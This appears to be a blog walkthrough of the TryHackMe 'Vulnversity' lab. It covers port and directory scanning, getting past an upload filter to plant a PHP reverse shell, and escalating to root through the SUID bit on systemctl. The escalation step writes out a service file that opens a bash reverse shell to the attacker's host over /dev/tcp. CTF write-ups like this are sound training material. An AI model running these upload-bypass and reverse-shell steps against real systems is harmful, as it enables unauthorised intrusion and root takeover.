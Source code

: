 ```yaml
---
layout: post
title: "Vulnversity"
date: 2021-03-21
ctf: true
excerpt: "Walkthrough for Vulnversity on TryHackMe"
tags: [SUID privilege escalation, reverse shell upload, directory enumeration, nmap]
comments: false
---
```


# Vulnversity

Vulnversity is the first room in the Offensive Security path on TryHackMe. Below is my walkthrough for the tasks for this room.

<details><summary><strong>Task 1 Hints</strong></summary>
<ul>
    <li>Have you deployed the machine and clicked on complete?
</ul>
</details>

<details><summary><strong>Task 2 Hints</strong></summary>
<ul>
    <li>The list of flags at the beginning of this task will be of great help.
    <li>Have you read the man page for nmap to answer some of these questions?
</ul>
</details>

<details><summary><strong>Task 3 Hints</strong></summary>
<ul>
    <li>Have you installed gobuster?
    <li>Make sure you pay attention to what port to run this tool on!
    <li>Some of the common wordlists should be more than enough to uncover the directory.
</ul>
</details>

<details><summary><strong>Task 4 Hints</strong></summary>
<ul>
    <li>Have you intercepted the traffic with Burp Suite or Zap?
    <li>Have you tried to modify the upload file extension with the extension list that is provided?
    <li>Upgrading your shell once you have a foothold is beneficial.
</ul>
</details>

<details><summary><strong>Task 5 Hints</strong></summary>
<ul>
    <li>Search for how to perform a SUID search on Linx
    <li>GTFOBins can help you with finding out which SUID can be exploited.
</ul>
</details>

## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>

### Task 1

No questions, it just wants you to deploy the box.

### Task 2

#### Question 1

Does not require an answer, just an acknowledgment.

#### Question 2

![Vulnversity Task 1 Question 2](/assets/img/Vulnversity1.png)

This can be done with several different methods. I decided to run:

**`threader3000`** 

and enter the IP address of the box. This returned the following results, which is a total of **6** open ports.

![Vulnversity threader3000](/assets/img/Vulnversity2.png)

#### Question 3

This question asks for the version of the squid proxy running on the host. 

![Vulnversity Task 2 Question 3](/assets/img/Vulnversity3.png)

This can be figured out by letting threader3000 do its default nmap scan.

![Vulnversity nmap](/assets/img/Vulnversity4.png)

The version uncovered is **3.5.12** as shown above.

#### Question 4

![Vulnversity Task 2 Question 4](/assets/img/Vulnversity5.png)

This one was rather simple. If the **-p-400** flag is used, it scans ports 1-400, so the answer would be **400**.

#### Question 5

![Vulnversity Task 2 Question 5](/assets/img/Vulnversity6.png)

This was another rather simple question. The answer to this is **dns**. This can be found by running: 

**`nmap --help`** 

and looking for the -n flag under the HOST DISCOVERY section as shown below.

![Vulnversity nmap --help](/assets/img/Vulnversity7.png)

#### Question 6

![Vulnversity Task 2 Question 6](/assets/img/Vulnversity8.png)

This can be found with the results of the nmap scan for Question 3, which is **Ubuntu**. This can also be done by running:

**`sudo nmap -O <ip address> --osscan-guess`**

#### Question 7

![Vulnversity Task 2 Question 7](/assets/img/Vulnversity9.png)

This can also easily be found out from the results of Question 3. It shows that Apache is running on port **3333**.

This can also be found out by running:

**`nmap -sV <ip address>`**

#### Question 8

This is another acknowledgment that you should do proper reconnaissance and just requires you to mark it complete.

### Task 3

#### Question 1

No answer is needed, this just wants you to acknowledge you read the information on gobuster.

#### Question 2

![Vulnversity Task 3 Question 2](/assets/img/Vulnversity10.png)

Let's utilize gobuster for this by running:

**`gobuster dir -u http://<target ip>:3333 -w /usr/share/wordlists/dirb/common.txt`**

This will soon return several results. 

![Vulnversity gobuster](/assets/img/Vulnversity11.png)

Let's take a look at the **/internal/** path of the website in our browser.

![Vulnversity website /internal/](/assets/img/Vulnversity12.png)

This is the location of the file uploader.

### Task 4

#### Question 1

![Vulnversity Task 4 Question 1](/assets/img/Vulnversity13.png)

After some trial and error, it appears that .php files are blocked as shown below.

![Vulnversity shell.php upload](/assets/img/Vulnversity14.png)

#### Question 2

This question has no required answer and just wants you to acknowledge that you have a basic understanding of Burp Suite.

#### Question 3

![](/assets/img/Vulnversity15.png)

For this question, let's create the extension list provided. First, lets run:

**`nano phpext.txt`**

Once here, add in the following extensions and save the file.

![Vulnversity PHP extensions](/assets/img/Vulnversity16.png)

Next, start up Burp Suite and have it intercept traffic with the proxy (which is on by default). Refresh the page with the **/internal/** directory and allow this traffic to be forwarded. Next, try to upload a [reverse PHP shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) that has been modified to add in your IP address and port of your choosing.

You should see a screen similar to the one below that is being uploaded

![Vulnversity Burp Suite 1](/assets/img/Vulnversity17.png)

Next, right click and click on **Send to Intruder** and then click on the **Intruder** tab and then the **Positions** section:

![Vulnversity Burp Suite 2](/assets/img/Vulnversity18.png)

Next, click on the **Clear §** button to remove all of the payload positions that were automatically added. Next, highlight the **.php** extension of the shell.php file name and click on **Add §** button.

![Vulnversity Burp Suite 3](/assets/img/Vulnversity19.png)

Next, click on the **Payloads** section and under **Payload Options** click on the **Load ...** button. Navigate to the **phpext.txt** file you created and click on **Open**.

![Vulnversity Burp Suite 4](/assets/img/Vulnversity20.png)

Next, at the bottom of the page, uncheck the **URL-encode these characters:"** box and then click on **Start Attack**.

A response window should appear, and there is one that has a shorter length than the rest (.phtml) Let's take a look at that response and by clicking on it and then clicking on **Response**.

![Vulnversity Burp Suite 5](/assets/img/Vulnversity21.png)

You will notice that this says **Success**, which means this file upload type is allowed. This tells us that **.phtml** files are allowed which answers this question.

#### Question 4

I sort of jumped the gun and we had already downloaded the recommended PHP reverse shell, so you can skip most of this section. The only thing you would need to do is on your attacker host, run:

**`nc -nvlp <port number>`** to catch the reverse shell. Where the port number is the one you defined in the reverse shell file.

![Vulnversity nc listener](/assets/img/Vulnversity22.png)

Next, in your browser, navigate to **http://\<target IP address>:3333/internal/uploads/shell.phtml**. In a few moments you should have a shell onto the victim machine.

![Vulnversity initial foothold](/assets/img/Vulnversity23.png)

#### Question 5

![Vulnversity Task 4 Question 5](/assets/img/Vulnversity24.png)

This question is answered rather easily. Let's run:

**`cd /home`**

followed by

**`ls`**

and you should get the following result which answers this question as there is only one home directory listed (**bill**).



![Vulnversity user name](/assets/img/Vulnversity25.png)

#### Question 6



![Vulnversity Task 4 Question 6](/assets/img/Vulnversity26.png)

For this, let's take a look in bill's home folder. Since we're already in the **/home** directory, let's just type in:

**`cd bill`**

and then follow this up with:

**`ls`**

the user.txt file should be present here, which can be displayed with:

**`cat user.txt`**

![Vulnversity user flag](/assets/img/Vulnversity27.png)

### Task 5

#### Question 1

![Vulnversity Task 5 Question 1](/assets/img/Vulnversity28.png)

There are several different ways to find the answer to this question. The one provided in the hint is not the most efficient method, as it does not filter out error messages. Let's utilize this command instead:

**`find / -user root -perm -4000 -print 2>/dev/null`**

This will find all SUID files and send the error messages to /dev/null so they are not displayed on your screen. This gives us a much shorter list of items to look at.

![Vulnversity SUID files](/assets/img/Vulnversity29.png)

One that stands out is **systemctl**, which can be utilized with privilege escalation. The answer to this question is **/bin/systemctl**.

#### Question 2

![Vulnversity Task 5 Question 2](/assets/img/Vulnversity30.png)

[GTFOBins ](https://gtfobins.github.io/gtfobins/systemctl/) has a pretty good guide on how to get root by abusing the systemctl SUID. The example they provide shows you how to run the id command as root, which is not really useful to us. Let's modify the command listed to the following:

Before running this, on our attacker computer, let's run the following:

**`nc -nvlp 4242`**

![Vulnversity nc listener root shell](/assets/img/Vulnversity31.png)

This will be utilized to catch the bash shell after running the command below.

**`sudo install -m =xs $(which systemctl) .`**

**`TF=$(mktemp).service`**
**`echo '[Service]`**
**`Type=oneshot`**
**`ExecStart=/bin/bash -c "bash -i >& /dev/tcp/<attacker ip>/4242 0>&1"`**
**`[Install]`**
**`WantedBy=multi-user.target' > $TF`**
**`./systemctl link $TF`**
**`./systemctl enable --now $TF`**

![Vulnversity systemctl abuse](/assets/img/Vulnversity32.png)

Next, let's run:

**`/bin/systemctl start /tmp/tmp.<randomly generated characters>.service`**

![Vulnversity systemctl start](/assets/img/Vulnversity33.png)

If you go back to your listener on port 4242, you should now have a root shell!

![Vulnversity root shell](/assets/img/Vulnversity34.png)

Now, we can run the following to navigate to the root user's home directory, list the contents, and print out the root flag:

**`cd /root`**

**`ls`**

**`cat root.txt`**

![Vulnversity root flag](/assets/img/Vulnversity35.png)

</details>